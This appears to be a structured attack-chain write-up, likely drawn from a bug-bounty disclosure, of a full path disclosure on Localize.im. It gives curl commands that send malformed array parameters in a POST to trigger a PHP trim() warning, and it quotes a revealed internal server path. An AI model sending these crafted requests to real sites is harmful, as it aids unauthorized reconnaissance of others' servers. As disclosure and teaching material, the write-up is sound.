

# Full Path Disclosure via Malformed POST Parameters in Localize.im

Multi-stage attack chain demonstrating reconnaissance through information disclosure in a web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with PHP backend
- Access to https://www.localize.im/projects/[project ID]/languages/[Language ID]
- Valid CSRF token and session for authenticated requests

### Initial Access Requirements

- Authenticated user account on Localize.im
- Knowledge of project ID and language ID
- Network access to the target endpoint

## Detailed Attack Procedures

### Step 1: Access Projects Languages Endpoint
procedure: [[procedures/Access-Localize-im-Projects-Languages-Endpoint]]

**Objective**: Verify access to the vulnerable endpoint and gather necessary identifiers like project ID and language ID.

**Instructions**: Use [[commands/curl-get-endpoint]] to send a GET request to the projects/languages endpoint:

```bash
curl -X GET "https://www.localize.im/projects/[project ID]/languages/[Language ID]" -H "Cookie: session=your_session_cookie" -H "User-Agent: Mozilla/5.0"
```

Replace [project ID] and [Language ID] with actual values from your authenticated session.

**Expected Output**: HTML response containing project and language details, confirming endpoint accessibility.

**Success Indicators**:
- HTTP 200 response
- Project and language data visible in response

### Step 2: Craft Malformed POST Request for FPD
procedure: [[procedures/Craft-Malformed-POST-Request-for-FPD]]

**Objective**: Submit a POST request with malformed updatePhrases parameters to trigger a PHP trim() error.

**Instructions**: Use [[commands/curl-post-malformed]] to send the crafted POST request:

```bash
curl -X POST "https://www.localize.im/projects/[project ID]/languages/[Language ID]" \
  -H "Cookie: session=your_session_cookie" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "CSRFToken=TOKEN&updatePhrases[previous][yxr][0]=&updatePhrases[edits][yy4][0]=&updatePhrases[edits][yxr][0]=&updatePhrases[previous][yxq][0]=&updatePhrases[secret]=[SecretCodes]&updatePhrases[translatorID]=[ID]&updatePhrases[edit][someID][0][]="
```

Append '[]' to parameters like updatePhrases[edit][ID][0][] to create array structures that cause the trim() function to receive an array instead of a string.

**Expected Output**: HTTP response containing a PHP warning error message.

**Success Indicators**:
- Response includes PHP error
- No successful update confirmation

### Step 3: Analyze PHP Error for Server Path Disclosure
procedure: [[procedures/Analyze-PHP-Error-for-Server-Path-Disclosure]]

**Objective**: Parse the error response to extract and map the disclosed internal server path.

**Instructions**: Inspect the response from the previous step for the error line, such as using grep if saved to a file:

```bash
curl ... | grep -i "warning"
```

Look for paths like '/srv/data/web/vhosts/www.localize.im/htdocs/index.php on line 192'.

**Expected Output**: Full server path revealed in the warning message.

**Success Indicators**:
- Internal path visible (e.g., /srv/data/web/vhosts/...)
- Directory structure inferred for further reconnaissance

## Attack Chain Summary

### Key Achievements

1. Gained access to the projects/languages endpoint
2. Triggered a PHP error via malformed array parameters
3. Disclosed server file structure for environment mapping

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Software]] Gather Victim Host Information
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01T00:00:00Z*
